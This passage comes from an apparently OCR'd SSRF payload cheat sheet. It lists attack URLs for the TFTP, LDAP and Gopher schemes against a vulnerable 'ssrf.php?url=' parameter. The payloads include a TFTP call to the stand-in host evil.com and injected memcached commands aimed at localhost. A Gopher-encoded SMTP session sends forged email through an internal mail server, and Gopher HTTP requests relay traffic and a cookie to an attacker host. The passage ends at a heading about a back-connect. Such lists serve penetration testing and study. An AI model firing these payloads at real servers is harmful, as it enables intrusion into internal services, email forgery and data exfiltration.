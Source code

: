 ### TFTP

Trivial File Transfer Protocol, works over UDP

```
ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET
```

### LDAP

Lightweight Directory Access Protocol. It is an application protocol used over an IP network to manage and access the distributed directory information service.

```
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
```

### Gopher

It is a distributed document delivery service. It allows users to explore, search and retrieve information residing on different locations in a seamless fashion.

```
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a

will make a request like
HELO localhost
MAIL FROM:<hacker@site.com>
RCPT TO:<victim@site.com>
DATA
From: [Hacker] <hacker@site.com>
To: <victime@site.com>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: Ah Ah AH

You didn't say the magic word !


.
QUIT
```

### **Gopher HTTP**

```
gopher://<proxyserver>:8080/_GET http://<attacker:80>/x HTTP/1.1%0A%0A
gopher://<proxyserver>:8080/_POST%20http://<attacker>:80/x%20HTTP/1.1%0ACookie:%20eatme%0A%0AI+am+a+post+body
```

### **Gopher SMTP - Back connect to 1337**
